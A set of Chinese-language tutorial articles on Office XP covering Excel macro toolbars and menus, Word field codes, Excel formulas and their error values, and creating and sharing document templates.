在 Office 的应用程序工作环境中，工具栏使得很多的操作都显得得心应手。比如工具栏上的图标按钮和提示，使操作更直观方便。而且，还可以对工具栏进行调整、设定，有利于设置一个具有个性化的 Office 操作环境。不仅如此，只要你需要，我们还能够定义菜单栏，对其进行重新排列、增加、删除、添加删除菜单上的按钮等等，这一切将由 Office 提供的自定义工具栏功能来实现。因此，我们还可以建立自己的宏菜单，把所有的宏命令放到菜单下，这样操作起来就很方便，再也不用进行烦琐的操作或者记那些容易混淆的快捷键了。下面，我们就来学习如何建立自定义的工具栏。

- (1) 用鼠标右键单击任何工具栏，在弹出的快捷菜单里选择【自定义】命令。
- (2) 在随后出现的【自定义】对话框中，选择【工具栏】选项卡。
- (3) 然后单击【新建】按钮，在随后弹出【新建工具栏】对话框中输入新工具栏的名称，然后单击【确定】按钮，在本例中，我们将取名为“成绩等级”，如图 9 所示。

这样我们就创建了一个新的空白工具栏，下面的任务就是要将宏的命令按钮、图标、按钮名称等添加到这个新的工具栏中。

- (4) 增添按钮。在【自定义】对话框中，单击【命令】选项卡，然后从左侧的【类别】栏里选择“宏”，从【命令】列表框中将【自定义】按钮拖曳到【成绩等级】工具栏上，如图 10 所示。
- (5) 指定按钮的名称和快捷键。我们可以单击【自定义】对话框中【命令】选项卡里的【更改所选内容】命令按钮或者在成绩等级工具栏上单击鼠标右键，在弹出的子菜单里，单击【命名】框，输入“优秀(&Y)”作为键的名称，其中名称中的值“优秀”将作为按钮的屏幕提示内容，而“(&Y)”将作为按钮的热键，如图 11 所示。
- (6) 修改按钮的图标。在【更改所选内容】命令的子菜单里，选择【更改按钮图标】命令，在弹出的图标菜单里选择需要的图标。
- (7) 做好前面的按钮的界面的设计后，我们还要把刚才的宏命令指定到创建的新按钮。单击【更改所选内容】按钮，在弹出的菜单里选择【指定宏】命令按钮，打开【指定宏】对话框。在对话框里选择所需要的宏，单击【确定】按钮。在本例中，我们选择的是“优”。
- (8) 重复前面的步骤，把三个宏都指定到相应的按钮。最后关闭【自定义】对话框。

这样，整个【成绩等级】工具栏就全部建好了，我们将鼠标移到按钮上时，我们将看到前面设定的屏幕提示，如图 12 所示，说明所建按钮是正确的。

#### 图12 成绩等级工具栏及其屏幕提示

现在，我们可以像操作 Office 里的其他工具栏一样对【成绩等级】进行各种操作，并且可以拖曳该工具栏，使之成为固定或者浮动的工具栏。

#### 2. 指定宏到菜单栏

在 Office 中，我们还可以根据自己的需要定义菜单栏和菜单命令，增加自己的菜单栏和菜单命令，移去不需要的菜单栏、菜单栏命令。我们通过以下步骤实现自定义菜单栏的建立。

- (1) 在 Excel XP 中用鼠标右键单击任意一个工具栏，在弹出的子菜单里选择【自定义】命令，屏幕上将出现【自定义】对话框。选择【命令】选项卡，从【类别】选择列表里选择“新菜单”项。此时在右栏里只有一个【新菜单】命令，可以用它在菜单栏上建立新的菜单，也可以用它在已存在的菜单上创建新的子菜单。
- (2) 将【新菜单】条目拖曳到 Excel XP 的菜单栏，放置到合适的位置，在本例中，我们将新的菜单放到【格式】和【工具】之间，如图 13 所示。

#### 图13 在菜单栏添加新的菜单

- (3) 单击【更改所选内容】按钮，在【命令】框中键入所需的菜单名后回车，在本例中，我们将输入“成绩(&C)”，如图 14 所示。此处“&C”的含义是：以字母 C 作为访问快捷键，只需按下【Alt】+【C】，就可以直接访问此菜单。

#### 图14 插入了自定义菜单后的菜单栏

- (4) 下面给菜单添加一个菜单项。给菜单添加菜单命令有两种方法。一是像上面创建菜单一样，现在【自定义】对话框里的【命令】选项卡中选择“新菜单”项，将其拖曳到刚才建立的新菜单处，然后单击【更改所选内容】按钮，为菜单项命名和指定宏。二是利用已有的工具栏来建立。因为在 Microsoft Office XP 里，菜单其实是一个特殊的工具栏，所以菜单栏上的子菜单和工具栏上的按钮可以同等看待，两者可以互相复制或者移动。

根据这样的属性，我们利用在前面建立好的【成绩等级】工具栏，通过复制的方式建立【成绩】菜单，我们先开启【成绩等级】工具栏，再打开【自定义】对话框，选中要复制的命令按钮并按住【Ctrl】键拖到【成绩菜单】下的空菜单里。这样就在【成绩】菜单里添加了【优秀】命令。

这里要注意，一定要在处于开启【自定义】对话框的状态下，才可以对菜单栏进行编辑。完成后的效果如图 15 所示。

#### 图15 将“优秀”增加到“成绩”菜单栏中去

此外，在操作中我们还要注意，一定要按住【Ctrl】键，才是对按钮的复制，否则只是将按钮移动到菜单栏中。从上面的图中我们也可以发现，新的菜单名称与工具栏按钮的“屏幕提示内容”相同，菜单命令旁有与工具栏按钮相同的图标。

- (5) 重复以上步骤，将【良】、【中】等工具栏上的按钮都复制到【成绩】菜单中。最后关闭【自定义】对话框，完成自定义菜单的工作，完成后的菜单栏如图 16 所示。

#### 图16 创建完成的“成绩”菜单

创建完成自定义菜单后，我们来测试一下新创建的菜单能否正常工作。首先把鼠标移动到需要运行宏的地方，然后再依次用鼠标点击三个菜单项，看是否有效。接着测试组合快捷键能否正常工作，分别按【Alt】+【C】+【Y】(即先按【Alt】+【C】组合键，然后再按【Alt】+【Y】键)、【Alt】+【C】+【L】、【Alt】+【C】+【Z】看看能否正常运行。

与其他工具栏里的菜单一样，你可以对自定义菜单进行一系列操作，比如，根据需要重新排列菜单项、增加或者删除菜单项，还可以给菜单重新命名（系统自带的菜单不能更改名字），或者删除不需要的菜单等等。这些操作都需要在菜单栏可编辑状态下进行，也就是要在开启【自定义】对话框的前提下进行以上各操作。还要说明的一点就是，删除菜单比添加菜单要简单的多，只需要在菜单栏可编辑状态下，把要删除的菜单栏或者菜单选项拖离菜单栏位置即可，此时鼠标将变成形状。

#### 3. 指定宏到按钮

在建立完各个宏之后，我们最简洁的方法就是马上给各个宏建立相对应的按钮，当需要执行某个宏时，只需要单击相应的按钮，十分方便。我们这里仍以“期末成绩”数据表单作为示例，简要介绍一下宏按钮建立，步骤如下。

- (1) 在Excel XP的任一工具栏上单击右键，选择【窗体】命令，开启【窗体】工具栏，屏幕上将出现如图17所示的工具栏。
- (2) 创建命令按钮：单击【窗体】工具栏中的【按钮】工具按钮，在工作表上选定的区域拖放，即可创建一个命令按钮。在弹出的【指定宏】对话框里，选择要指定的宏来给命令按钮指定宏。
- (3) 此时按钮边上有八个可以调节按钮，根据实际需要来调节按钮的大小、形状，按钮上的文本、以及改变其字体、字号和颜色等。建立宏按钮后的数据清单如图18所示。

#### (六) 编辑宏

如果宏没有按照要求完成所要求的功能，我们有两种选择。重新录制宏或者打开代码进行修改。如果该宏比较简单，我们推荐重新录制一个宏，但是如果是一个复杂的宏，那么直接修改宏的VBA代码将更加方便。

VBA代码可以在Visual Basic编辑器中进行编辑，开始编辑宏的时候，我们可以通过以下步骤开始编辑一个已有的宏。

- (1) 打开要编辑的宏所在的工作表、文档、模板或者演示文稿。
- (2) 选择【工具】→【宏】→【宏】命令打开宏对话框。
- (3) 从宏名列表中选择要编辑的宏。
- (4) 在右边的命令按钮里选择【编辑】命令按钮，启动Visual Basic编辑器（如图19），我们可以根据自己的需要在代码里修改由【宏录制器】录制的宏。我们也可以对现有的宏进行修改，以增强或删除宏的功能，实现最终操作目的。

| A      | B      | C      |
|--------|--------|--------|
| 期末成绩单 |        |        |
| 等级     | 科目         | 成绩 |
| 良       | 计算机英语   | 80   |
| 良       | 法律基础     | 85   |
| 优       | 汇编语言程序设计 | 92   |
| 中       | 离散数学     | 77   |
| 良       | 政治经济学原理 | 81   |
| 良       | 计算机网络   | 83   |
| 良       | 编译原理     | 87   |
| 优       | 数据库应用与开发 | 91   |
| 中       | 面向对象的程序设计及应用 | 79   |

图18 设置了宏按钮后的数据清单

> (文 / 叶柏晓 徐雁生 张迎新)

## Word XP的精髓——域的使用

域是 Word 的精髓，它的应用非常广泛。域的最大优点是可以根据文档的改动或其他有关因素的变化而自动更新。例如，生成目录后，目录中页码会随着页面的增减而产生变化，这时可通过更新域来自动修改页码。因而使用域可以方便而快捷地完成许多工作，更重要的是能够保证得到正确的结果。

### 一、认识域

域包括域代码和域结果两部分。域代码是代表域的符号，域结果是利用域代码进行一定的替换计算得到的结果。域有些类似于Excel中的公式，具体地说，域代码类似于公式，域结果类似于公式计算得到的值。

域代码位于大括号中。如果要显示域代码的结果并隐藏域代码，可单击【工具】→【选项】命令，选择【视图】选项卡，清除【域代码】复选框。

【显示】选项组有一个【域底纹】下拉列表框，其中有三个选项，如图1所示。

这三个选择的具体含义如下。

- 【显示】表示显示域的底纹。
- 【不显示】表示不显示域的底纹。
- 【选取时显示】表示只有选定域时才显示域的底纹。

域包含域结果和域代码，当清除了上图的【域代码】复选框后，在文档中插入了域，显示的就会是域结果，如果想编辑域，可以选中【域代码】复选框，就可以显示域代码了。也可以选中某个域，然后右击鼠标，出现一个快捷菜单。从快捷菜单中选中【切换域代码】命令，当再次从快捷菜单中选择【切换域代码】命令，又可将域代码切换到结果。

也可以使用快捷键进行切换，只要把插入点放在某个域中，按【Shift】+【F9】快捷键就可在域代码和域结果间切换。如果要显示文档中所有域代码，按下【Alt】+【F9】快捷键即可。再次按【Alt】+【F9】快捷键可以隐藏域代码，并显示域结果。

### 二、插入域

如果你知道要插入的域的代码，就可以直接将其输入到文档中。方法是：按下快捷键【Ctrl】+【F9】，这样就可以在文档中插入一对大括号，然后在括号中输入需要的代码即可。

如果不知道域代码，也可以插入预定义域，其操作步骤如下。

- (1) 将插入点置于要插入域的位置。
- (2) 单击【插入】→【域】命令，打开【域】对话框。
- (3) 在【类别】下拉列表框中，列出了所有域的类别，如选择【日期和时间】，则在【域名】列表框中列出了该类别的所有域名，如图2所示。如果在【类别】下拉列表框中选择【全部】选项，则【域名】列表框中将列出所有的域名。
- (4) 如果在图2中选中【更新时保留原格式】复选框，在更新域时将保留应用于域结果的字符格式。如果要让 Word 在更新域的同时更新格式，可清除该复选框。

### 三、锁定域

有时可能不希望更新域，例如插入日期时希望日期保持为插入时的时间，而不随时间的变化而更新。那么通过以下两种方法可以防止域的更新。

- （1）暂时锁定某个域。
- （2）解除某个域的链接（也就是永久性锁定）。

## 1. 域的锁定与解除

如果要锁定某个域，以防止修改当前的域结果，可以选定此域，然后按【Ctrl】+【F11】快捷键，就可将域锁定。锁定域后，与其他域在外观上没有什么区别，但在该域上单击鼠标右键时，会发现快捷菜单中的【更新域】命令呈灰色。如果想按【F9】键更新该域，计算机就会发出警告声。
如果要解除对某个域的锁定，以便对域进行更新，则在选定此域后，按下【Ctrl】+【Shift】+【F11】快捷键即可。

## 2. 解除域的链接

域通常与一个信息源联系在一起，如果要永久保存当前的域结果，可以解除域的链接，方法是选定要锁定的域，然后按下【Ctrl】+【Shift】+【F9】快捷键即可。当解除了某个域的链接后，则当前的域结果成为常规文本，而且不能恢复链接。如果需要更新信息，需要重新插入该域。

### 四、域开关

域开关是特殊的指令，在域中可引发特定的操作。例如，在域中插入 \* Caps 开关，可使域结果中所有单词的首字母大写。
下面介绍其中的一些通用的域开关。

## 1. 格式域开关

格式域开关指定域结果的显示方式。格式指令确定所用的大小写、数字格式（例如，“9”应显示为“ix”（罗马数字）还是“ninth”（序数词），甚至可以显示为“壬”）和字符格式。格式域开关一般接在“\*”的后面。格式开关在更新域时仍保留该域结果的格式。

## 2. 日期-时间域开关

“日期-时间”域开关用来指定日期或时间的显示方式。该开关又称为“图片”开关，是因为使用符号来代表域结果的格式。“日期-时间”图片域开关一般接在“\@”的后面。

例如，在域 { DATE \@ "dddd, MMMM d, yyyy" } 中的开关 \@ "dddd, MMMM d, yyyy" 显示 "Friday, November 24, 2000."结合下列日期和时间结构来建立一个日期时间图片 day (d)、month (M)、year (y)、hours (h) 和 minutes (m)。其中还可包含文本、标点和空格等。

### 五、Word 的预定义域

Word 提供了许多预定义域，可以非常方便地使用，提高处理文档的效率，Word 预定义域包括9种类型70多种域。下表中列出了其中一些常见的预定义域。

常见的预定义域表

| 类型 | 域 | 域代码 | 功能 |
| :--- | :--- | :--- | :--- |
| 编号 | Page | { PAGE [\* 格式开关项] } | 插入页码 |
| 编号 | Section | { SECTION } | 插入当前节的编号 |
| 编号 | SectionPages | { SECTIONPAGES } | 插入一节的全部页数 |
| 日期和时间 | Date | { DATE [\@ "日期-时间开关项"] } | 插入当前日期 |
| 日期和时间 | Time | { TIME [\@ "日期-时间开关项"] } | 插入当前时间 |
| 日期和时间 | Index | { INDEX [开关项] } | 建立并插入一个索引 |
| 日期和时间 | RD (引用文档) | { RD "文件名" } | 在创建目录、引文目录项 |
| 日期和时间 | TA | { TC [开关项] } | 标记引文目录项 |
| 日期和时间 | TC (目录项) | { TC "文本" [开关项] } | 定义目录和表格列表、图表及类似内容项目的文本和页码 |
| 索引和目录 | TOA | { TOA [开关项] } | 建立并插入一个目录 |
| 索引和目录 | TOC (目录) | { TOC [开关项] } | 建立一个目录 |

### 六、多面手 EQ 域

EQ 域主要用于编排复杂的数理公式。创建公式一般使用【公式编辑器】程序。但如果没有安装【公式编辑器】而要嵌入公式，可使用EQ 域。EQ域的链接不能解除。
EQ 域中有很多基本的域指令，分别用于表达积分、根号及分式等，如果嵌套使用，可排出各类复杂的表达式。只要掌握了这些最基本的域指令，那么对于任何复杂的表达式，只要剖析一下其组成结构，便可以综合利用 EQ 域的不同指令编排出来。
EQ 域包括十个特殊指令，其中括号内的代码表示相应的指令开关。

## Excel XP公式及其应用

在Excel中，“公式”是一个十分重要的概念。简单地说，公式是对单元格中数值进行计算的等式，我们既可以利用公式进行一些简单的快速运算，例如加、减、乘、除等，也可以用公式完成很多复杂的财务预算、销售分析、投资决策、统计数据、科学计算等，还可以利用公式进行比较或操作文本。现在，我们就带领各位一起来深入Excel公式的神秘之旅吧：

### 一、什么是Excel公式

要使用公式，我们必须首先了解公式的概念，了解如何正确创建公式、如何引用单元格的数值、如何通过使用工作表函数简化公式等知识。

#### (一) 公式的定义和组成

这里所指的公式，是指对工作表中的数值进行计算的等式。

一个标准的Excel公式，通常包含3个基本元素。

- 1. "=" 或 "+" 是指Excel公式通常以等号 "=" 或加号 "+" 开始，用以表明之后输入的字符为公式。
- 2. 操作数是指需要进行计算的元素，包括函数、常量、引用。
- 3. 运算符是指各操作数之间用运算符分隔，Excel将根据公式中运算符的特定顺序自左至右计算公式，公式按特定次序计算数值。

#### (二) 公式中的操作数

上面已经提到，公式中的操作数包括函数、常量、引用三种。下面，我们先来看一看它们究竟具体代表什么意思。

- 1. 函数也是一些预定义的公式，详细内容请参阅本章中的相关内容。
- 2. 常量是指直接输入公式的数字或文本的值，不会发生变化。例如，日期“2008-10-9”、数字“210”、文本“每季度收入”都是常量，但表达式以及表达式产生的值都不是常量。
- 3. 引用作用在于标识工作表中的单元格或单元格区域，并指明公式中所使用的数据的位置。通过引用，可以在公式中使用工作表不同部分数据，或者在多个公式中使用同一个单元格的数值，还可以引用同一个工作簿中不同工作表上的单元格和其他工作簿中的数据。

#### (三) 公式中的运算符

运算符对公式中的元素进行特定类型的计算，Excel中包含算术运算符、比较运算符、文本运算符和引用运算符等四种类型的运算符。

（1）如果我们需要完成基本的数学运算，例如加法、减法、乘法、除法、连接数字、产生数字结果等，那么就需要用到表1所示的算术运算符。

表1 算术运算符
| 算术运算符 | 含义（示例） |
| :--- | :--- |
| +（加号） | 加法运算（3+3） |
| -（减号） | 减法运算（3-1）、负（-1） |
| *（星号） | 乘法运算（3*3） |
| /（正斜线） | 除法运算（3/3） |
| %（百分号） | 百分比（20%） |
| ^（插入符号） | 乘幂运算（3^2） |

（2）可以使用表2中所列举的比较运算符对两个值进行比较，结果是一个逻辑值，不是TRUE就是FALSE。

表2 比较运算符
| 比较运算符 | 含义（示例） |
| :--- | :--- |
| =（等号） | 等于（A1 = B1） |
| >（大于号） | 大于（A1 > B1） |
| <（小于号） | 小于（A1 < B1） |
| >=（大于等于号） | 大于或等于（A1 >= B1） |
| <=（小于等于号） | 小于或等于（A1 <= B1） |
| <>（不等号） | 不相等（A1 <> B1） |

（3）文本运算符一般指使用和号（&）加入或连接一个或更多文本字符串以产生一个连续的文本值。

（4）使用引用运算符可以将单元格区域进行合并计算（见表3）。

表3 引用运算符
| 引用运算符 | 含义（示例） |
| :--- | :--- |
| :（冒号） | 区域运算符，产生对包括在两个引用之间的所有单元格的引用（B5:B15） |
| ,（逗号） | 联合运算符，将多个引用合并为一个引用（SUM（B5:B15, D5:D15）） |
| （空格） | 交叉运算符对两个引用共有的单元格的引用（B7:D7 C6:C8） |

### 二、创建公式

说了这么多，可能有些朋友已经开始心急起来，公式有这么多的好处，究竟应该怎样使用呢？别着急；下面笔者就带领各位由简到繁、由易到难地进行学习，相信你很快就可以掌握各类公式的创建方法了。

### (一) 简单公式

什么是简单公式呢？其实，“简单公式”就是最简单的公式，公式中只包括运算符和常量。

例如，我们要创建一个“= 200+300”的简单公式，表示需要计算“200+300”的值。创建步骤十分简单。如图1所示，单击需要键入公式的单元格，键入等号“=”，然后输入公式内容“200+300”，按下回车键，或者点击编辑栏上的【√】按钮，怎么样，看到结果“500”出来了吧？

再例如，创建一个“= 5 ^ 2”的公式，表示计算“5的平方”，方法同上。

### (二) 包含引用或名称的公式

包含引用或名称的公式指公式中包含了对其他单元格的相对引用以及这些单元格的名称，包含公式的单元格称为从属单元格，因为其结果值将依赖于其他单元格的值。例如，如果单元格B2包含公式“= C2”，则单元格B2就是从属单元格。

例如，我们需要对图2中的“总分”和“平均分”进行计算，总不能每次仍然通过手工的方法将每名同学的数学、英语、语文三门功能的成绩相加得到总分，再除以3得到平均分，这样太麻烦了，而且还容易出错。

其实，我们可以在这里创建一个公式来达到我们的目的。先说“总分”吧，很明显公式应该是“总分=数学+英语+语文”，先选中G3单元格，然后键入“=”号，然后选中D3单元格，这是李文东同学的数学成绩，至于不直接输入“63.5”这个成绩而选中D3单元格，实际上就是引用了D3这一单元格的数值，这样做的好处是在日后D3单元格的数值变化时，公式中的计算结果也会即时刷新，键入“+”号，接下来选中E3单元格（即李文东同学的英语成绩），同样需要键入“+”号，再选中F3单元格（即李文东同学的语文成绩），如图3所示，最后按下回车键就可以得到总分了。至于其他同学的总分，我们可以通过拖动填充柄的方法获取，这里就不多说了。

下面，我们再来看一看“平均分”的计算，它的公式应当是“平均分=总分/3”，因为只有3门功课，所以首先选中H3单元格，然后键入“=”号，然后选中G3单元格，键入“/”号，再键入“3”，就可以得到结果了，最后利用填充柄就可以得到其他同学的平均分。

### （三）包含函数的公式

其实，针对上面的问题，我们还可以利用Excel函数来完成。Excel提供了将近200个内部函数，我们可以通过【函数创建向导】来应用这些公式。首先，仍然是在图2中选中G3单元格，先键入“=”号，此时会看到编辑栏出现了一个【SUM】下拉列表框，点击右端的下拉箭头，可以看到SUM、AVERAGE……等常用函数，这里当然是选择SUM（求和）啦，接下来会出现【函数参数】对话框，【Number1】栏中表示用于参与运算的单元格区域，请检查是否正确，如果无误的话，点击【确定】按钮就可以得到图4所示的计算结果了。至于“平均分”的计算，应该使用“AVERAGE”函数，具体方法这里就不多说了。

如果你对函数名不是太熟悉；也可以从【插入】菜单中选择【插入】→【函数】的命令，从打开的【插入函数】对话框中可以看到某个函数的功能，然后按照向导的提示一步步操作下去，这样就简单多了。

### （四）嵌套函数的公式

嵌套函数将函数作为其他函数的一个参数，使用时它必须返回与当前使用的数值类型相同的数值，Excel中的公式最多可以包含七级嵌套函数。如果嵌套函数返回的数值类型不正确，Excel将显示“#VALUE!”的错误值。例如，下面的公式“＝IF(AVERAGE(D3:F3)>75,SUM(D3:F3),0)”表示只有当数学、英语、语文三门功课的平均分大于75分时，才会计算这三门功课的总分，否则显示的结果为“0”。在G3单元格入上面的嵌套了函数的公式，就可以得到如图5所示的结果了。

- 小技巧一：通过填充柄，我们可以在某一行或某一列快速复制公式，注意复制公式时单元格的相对引用将会自动进行更新，如果你不希望自动更新的话，请使用绝对引用。
- 小技巧二：如果你希望在单元格区域中输入同一公式，只要先选定该区域，然后键入公式，按下【Ctrl】+【Enter】组合键就行了。
- 小技巧三：复制公式时，我们一般都是通过拖动填充柄的方式进行。其实，你还可以快速双击单元格右下角的填充柄，就可以将某列或某行单元格中快速复制公式，快试试吧。

### 三、编辑公式

编辑公式与编辑普通数据的方法是一样的。

### 四、快速完成某些计算

其实，除了上面的运用简单公式、运用单元格引用、运用函数等方法完成各种运算外，其实我们还可以通过一些更简单的方法来快速完成某些计算。

### （一）快速求和

我们平时使用最多的公式当然是求和（SUM），这也是Excel为什么将SUM函数排列在第一行的原因。

请朋友们仔细看一看工具栏，这里有一个“Σ”的自动求和按钮，使用时只需先选中需要求和的单元格，然后点击【Σ】按钮，如果虚线框内的区域正确无误，按下回车键就可以得到答案了，这里实际上仍然是应用了函数的方法。

### （二）快速得到计算值

有些时候，我们并不需要在表格中显示计算值，而只需要了解计算结果而已，例如和、最大值、最小值、计数值、平均值等。

这时，我们只要右击状态栏，看到什么了？如图6所示，默认状态是“求和”，你可以改为自己所希望显示的计算结果，例如“均值”，然后选中表格中的相应行或相应列，马上就可以在状态栏中看到“平均值”的结果值，这样就可以省去计算的麻烦。

### 五、将公式隐藏起来

公式的删除很简单，只要选中包含公式的单元格，然后直接删除就可以了。不过，如果你只是想将公式隐藏起来，也就是说只将结果显示出来，而不显示具体的计算公式，具体方法如下。

### （一）仅显示公式

选中包含公式的单元格，此时可以在编辑栏中看到具体的计算公式。告诉你一个小秘密，同时按下【Ctrl】键和【'】键（该键在【ESC】键的下面，称为“重音符”）的组合键，就可以在公式和值之间进行快速切换了。

不过，这一方法仅对当前的活动工作簿有效，如果你希望将所有工作簿中都设置为仅显示公式的状态，那么可以从【工具】→【选项】→【视图】菜单下打开【视图】对话框，在其【窗口选项】小节下选中【公式】复选框就行了。

### （二）禁止公式在编辑栏上显示

有些时候，我们需要禁止公式在编辑栏上显示，这时可以通过如下的两个步骤来完成。

#### 1. 隐藏单元格

选定需要隐藏的公式所在的单元格区域，按下【Ctrl】键或【Shift】键还可以同时选定相邻或不相邻的多个区域，然后从【格式】菜单下选择【单元格】命令，选择【保护】选项卡，然后在其中选中【隐藏】复选框。

#### 2. 保护工作表

这里要说明的是，仅仅通过上面的方法是无法隐藏公式的，如果还需要同时对工作表提供保护，其操作方法是，请再从【工具】菜单下选择【保护】→【保护工作表】命令，在打开的【保护工作表】对话框中选中【保护工作表及锁定的单元格内容】复选框，现在再看一看，是否在编辑栏上已经看不到公式了？

如果希望公式能够重新在编辑栏中显示出来，只需执行【工具】→【保护】→【撤消工作表保护】命令就行了。

### （三）将公式保护起来

保护公式的目的主要是为了防止公式被其他用户误操作而破坏，其方法与“禁止公式在编辑栏上显示”的方法大致相仿。

不过，在默认状态下，工作表中的所有单元格均处于锁定状态，此时如果直接执行【保护工作表】命令，则所有单元格中都无法输入数据。因此，操作时应该先将所有的单元格解除锁定，然后仅对需要保护公式的单元格进行保护。

### 六、Excel公式中常见的错误信息

在使用Excel公式的过程中，你可能会经常遇到下面这些莫名其妙的错误信息，出现这些错误信息的原因有很多，该如何解决呢？

### （一）####！错误

#### 1. 原因

当列不够宽，或者使用了负的日期或负的时间。时，就会出现这样的错误。

## 2.解决方法

如果是列不够宽的问题，那么可以通过增加列宽或缩小字体填充、应用不同的数字格式等方法来解决。如果是日期和时间均为负数的问题，那么请改为正值（仅针对1900年日期系统），或者将其设置为非日期或非时间格式来显示该值

## (二) #VALUE!

### 1.原因

当使用错误的参数或运算对象类型时，或者当使用公式自动更正功能不能进行更正时，将产生错误值“#VALUE!”。

### 2.解决方法

首先，请确认公式或函数所需的运算符或参数正确，并且确保公式引用的单元格中包含有效的数值。有时当用户将单元格引用、公式或函数作为数组常量输入时也会产生这样的错误信息。

## (三) #DIV/0!

### 1.原因

当公式被零除时，或者输入的公式中包含明显的除数零时，都会产生这样的错误。

### 2.解决办法

修改单元格引用，或者在用作除数的单元格中输入不为零的值即可。

## (四) #NAME?

### 1.原因

公式中使用的名称已经删除，名称的拼写错误，在公式中使用了标志，在公式中输入文本时没有使用双引号，在区域的引用中缺少冒号。

### 2.解决办法
- (1) 公式中使用的名称已经删除：请确认公式中使用的名称确实存在，如果已经被删除的话，请重新使用【插入】→【名称】→【定义】命令添加相应的名称。
- (2) 名称的拼写错误：请修改拼写错误的名称。
- (3) 在公式中使用了标志：打开【工具】→【选项】→【重新计算】对话框，在【工作簿选项】下勾选【接受公式标志】复选框（如图7）。
- (4) 在公式中输入文本时没有使用双引号：这样一来，Excel会将其视作“名称”，而没有视作文本，请将公式中的文本括在双引号中。
- (5) 在区域的引用中缺少冒号：所有区域改用冒号。

## (五) #N/A

### 1.原因

在函数或公式中没有可用的数值。

### 2.解决方法

如果工作表中某些单元格暂时没有数值，请在这些单元格中输入“#N/A”，公式在引用这些单元格时，将不进行数值计算，而是返回“#N/A”。

## (六) #REF!

### 1.原因

单元格引用无效时，原因主要是删除了由其他公式引用的单元格，或者已经将移动单元格粘贴到其他公式引用的单元格中。

### 2.解决方法

请在更改公式或者在删除或粘贴单元格之后，立即单击【撤消】按钮，以恢复工作表中的单元格。

## (七) #NUM!

### 1.原因

当公式或函数中某个数字有问题时将产生错误值“#NUM!”。

### 2.解决方法

确认函数中使用的参数类型正确无误，使工作表函数使用不同的初始值，修改公式使其结果在有效数字范围之间。

## (八) #NULL!

### 1.原因

使用了不正确的区域运算符或不正确的单元格引用。

### 2.解决方法

如果要引用两个不相交的区域，请使用联合运算符逗号（，），如果没有使用逗号，Excel将试图对同时属于两个区域的单元格求和。
当然，Excel中的公式还有很多需要深入学习的东西，不可能在这篇文章中介绍的十分详细，感兴趣的朋友可以通过Excel的帮助或相关资料了解更多的内容和技巧。

> (文/王志军)

## Office XP 模板——让你的工作更高效

### 一、模板的基本概念

模板（Template）是一个用来创建文件的原型，许多文字处理软件都提供了很多现成的模板，它们可以分别被用来制作不同类型的文稿（比如备忘录、信件、演示稿等），用户还可根据实际需要，定制符合自己需要的模板。充分利用模板，不仅可以协助你在短时间内制作出十分规范的文件，而且还可以让你的工作更高效完美！下面，我们就来对 Office XP 模板的相关知识作一个了解吧。

选择【文件】→【新建】菜单命令，在 Word XP（或 Excel XP/PowerPoint XP）新建的窗口右侧会出现【新建文件】窗口任务栏，单击【根据模板新建】下的【通用模板】项目弹出【模板】选择窗口（如图 1），该窗口中已经分类提供了几种模板，Word XP 中有“常用”、“Web 页”、“报告”、“备忘录”、“出版物”、“信函和传真”、“英文向导模板”、“其他文件”等几类向导和模板，而且可以单击相应标签打开，其中会有相应模板文件名及模板描述信息，并可预览。选中你需要的模板，然后单击【确定】按钮即可打开已经套用该模板的新文件。

#### 注意：
- 1. 前面我们提到过，Office XP 有向导和模板文件两种“模板”，因此，有时选择了某个模板文件后，Office XP 可能还会弹出向导供你对模板中的一些参数进行必要调整与设置。
- 2. 默认情况下，Office XP 并没有把所有模板安装到硬盘上。因此，大家在选择某类模板后，Office XP 可能会要求你插入安装光盘进行安装。
- 3. 请不要直接选择 Word XP 工具栏上的【新建】按钮，直接按下它将会启用 Word XP 默认的模板，而不会出现【模板】选择窗口。
- 4. 在【模板】窗口中单击【其他文件】选项卡，双击其中的【转换向导】图标，则可以使用 Office 内置的【转换向导】实现 Word 文件到另外格式文件的转换。

### 二、Office XP 中模板的分类

Office XP 中的模板分为两类，一是系统向导和模板，第二类为用户自定义模板。

#### (一) 系统向导和模板

Office XP 的默认模板默认安装在 C:\Program Files\Microsoft Office\Templates\2052 文件夹中。这里存放的是所有 Office XP 的组件包括 Word XP、Excel XP、PowerPoint XP 的系统向导和模板。一般来说，向导的扩展名是 WIZ、而 Word XP 模板的扩展名是 DOT、Excel XP 模板的扩展名是 XLT、PowerPoint XP 模板的扩展名是 POT。

#### (二) 用户自定义模板

用户自定义模板存放的位置会由于 Windows 版本的不同而不一样。如果使用的是 Windows NT/2000/XP，那么存放用户自定义模板的文件夹位置是 C:\Documents and Settings\Administrator\Application Data\Microsoft\Templates。反之，如果使用 Windows 9x/Me，那么存放用户自定义模板的文件夹位置是 C:\Windows\Application Data\Microsoft\Templates(如果系统安装路径不是 C:\Windows，请自行修改路径)。

### 三、使用现有模板

Office XP 本身就为我们准备了很多的精美模板，可以直接套用，其方法比较简单。由于 Office XP 下各个组件中模板的相关功能大同小异，因此我们这里就以 Word XP 为例进行说明。

### 四、安装和删除不必要的模板

模板是以文件的形式存放的。因此，我们只要把需要的模板文件直接拷贝到上述文件夹中即可。如果某些模板不再需要，就可以把这些模板文件删除以节省一点硬盘空间，方法很简单，进入存放模板文件的文件夹，把相应的模板文件删除掉即可。

### 五、修改定制自己的模板

在实际工作中，如果觉得某个模板文件不尽如人意。我们还可以自己动手修改和完善已有的文件模板，使之符合自己的要求。比如公司要经常用 Word 的信函模板来编写信件，每次都要输入大量的重复信息，如“公司名称”、“职务”、“联系方式”等，这时不妨对模板文件进行一下修改，把这些信息添加到其中，从而定制一个符合自己公司需要的信函模板。方法如下。

选择【文件】菜单下的【新建】命令，再单击【根据模板新建】下的【通用模板】项目弹出【模板】选择窗口，从中选择一个类别，如“信函和传真”，然后选择“典雅型信函”，再依次在相应的位置填入“公司名称”、“职务”、“姓名”等公司的信息，完成后单击【文件】菜单中的【另存为】命令，在【另存为】对话框的【保存类型】下拉框中选择【文件模板】，并默认保存在模板文件夹下即可。以后就可以像使用 Office XP 自带的模板一样使用自己定制的模板了。

在平时，如果你看到某个文件的版式比较漂亮，也可以用 Office XP 打开文件，然后用上面的方法把它存为自己的模板文件。通过这种方法，你就可以十分轻松地制作出高水准的模板文件了。

事实上，据笔者的经验，如果我们有 Word、Excel 和 PowerPoint 文件，只要直接把它们拷贝到模板文件夹下，就可以在“常规”标签下看到并可以使用。

### 六、共享你的Word模板

一般来说，如你想把自己的模板给别人使用，只需要将相应的模板文件拷贝到对方的 C:\Windows\Application Data\Microsoft\Templates 文件夹下即可。

